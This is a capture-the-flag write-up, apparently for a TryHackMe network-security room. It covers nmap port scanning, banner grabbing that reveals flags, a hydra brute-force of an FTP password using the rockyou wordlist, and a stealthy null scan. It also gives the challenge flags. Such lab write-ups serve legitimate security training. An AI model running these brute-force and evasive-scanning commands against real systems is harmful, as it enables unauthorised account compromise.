

# Net Sec Challenge

## Nmap Result

Doing the first initial Nmap scan, we will find there is a total of `6` ports opening

```c
root@ip-xx-xx-xx-xxx:~# nmap -sS -O -p- yy.yy.yyy.yy
...
Host is up (0.00031s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
8080/tcp  open  http-proxy
10021/tcp open  unknown
```

There is one port which is above 10000, which is `10021`. We can find that it is an FTP server port by connecting, and find out the version is `vsFTPd 3.0.5`

```c
root@ip-xx-xx-xx-xxx:~# telnet yy.yy.yyy.yy 10021
Trying yy.yy.yyy.yy...
Connected to yy.yy.yyy.yy.
Escape character is '^]'.
220 (vsFTPd 3.0.5)
```

So we find out that the ports and the respective services are:

| Port | Service |
| --- | --- |
| 22 | SSH |
| 80 | HTTP |
| 139 | NetBIOS |
| 445 | Microsoft-DS(Directory Service) |
| 8080 | HTTP Proxy |
| 10021 | FTP |

## Services inspection

We can first try to inspect the header of the HTTP response, and we find our first flag(`THM{web_server_25352}`) in the value of Server

```bash
root@ip-xx-xx-xx-xxx:~# curl -v http://yy.yy.yyy.yy
*   Trying yy.yy.yyy.yy:80...
* TCP_NODELAY set
* Connected to yy.yy.yyy.yy (yy.yy.yyy.yy) port 80 (#0)
> GET / HTTP/1.1
> Host: yy.yy.yyy.yy
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Vary: Accept-Encoding
< Content-Type: text/html
< Accept-Ranges: bytes
< ETag: "229449419"
< Last-Modified: Tue, 14 Sep 2021 07:33:09 GMT
< Content-Length: 226
< Date: Mon, 16 Feb 2026 08:23:38 GMT
< Server: lighttpd THM{web_server_25352}
< 
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Hello, world!</title>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width,initial-scale=1" />
</head>
<body>
  <h1>Hello, world!</h1>
</body>
</html>
* Connection #0 to host yy.yy.yyy.yy left intact

```

Similarly, to know the flag lies in the SSH header, we can try to connect, and find that it is `THM{946219583339}`

```bash
root@ip-xx-xx-xx-xxx:~# telnet yy.yy.yyy.yy 22
Trying yy.yy.yyy.yy...
Connected to yy.yy.yyy.yy.
Escape character is '^]'.
SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
```

## Password brute-force

We are given two names: `eddie` and `quinn`, and we want to access to their accounts using FTP. To do this, we need to brute-force their password. The `eddie` account will result in nothing, but `quinn`'s account will reveal the flag. Here is how I obtain the crendentials:

```bash
root@ip-xx-xx-xx-xxx:~# hydra -l quinn -P /usr/share/wordlists/rockyou.txt yy.yy.yyy.yy ftp -s 10021
...
[DATA] attacking ftp://yy.yy.yyy.yy:10021/
[10021][ftp] host: yy.yy.yyy.yy   login: quinn   password: andrea

root@ip-xx-xx-xx-xxx:~ftp yy.yy.yyy.yy 10021
Connected to yy.yy.yyy.yy.
220 (vsFTPd 3.0.5)
Name (yy.yy.yyy.yy:root): quinn
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 1002     1002           18 Sep 20  2021 ftp_flag.txt
226 Directory send OK.
ftp> get ftp_flag.txt
local: ftp_flag.txt remote: ftp_flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
226 Transfer complete.
18 bytes received in 0.00 secs (29.3949 kB/s)
ftp> 221 Goodbye.
root@ip-xx-xx-xx-xx:~# cat ftp_flag.txt 
THM{321452667098}
```

## Silent Scanning

To finish the last challenge, we need to scan the machine without getting notice



To minimize the no. of packets, we can use the `-sN` flag to set the flags to zero

```bash
root@ip-10-48-93-106:~# nmap -sN yy.yy.yyy.yy
Starting Nmap 7.80 ( https://nmap.org ) at 2026-02-16 08:40 GMT
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for yy.yy.yyy.yy
Host is up (0.00053s latency).
Not shown: 995 closed ports
PORT     STATE         SERVICE
22/tcp   open|filtered ssh
80/tcp   open|filtered http
139/tcp  open|filtered netbios-ssn
445/tcp  open|filtered microsoft-ds
8080/tcp open|filtered http-proxy

Nmap done: 1 IP address (1 host up) scanned in 1.38 seconds

```

With this, we can get the final flag: `THM{f7443f99}`


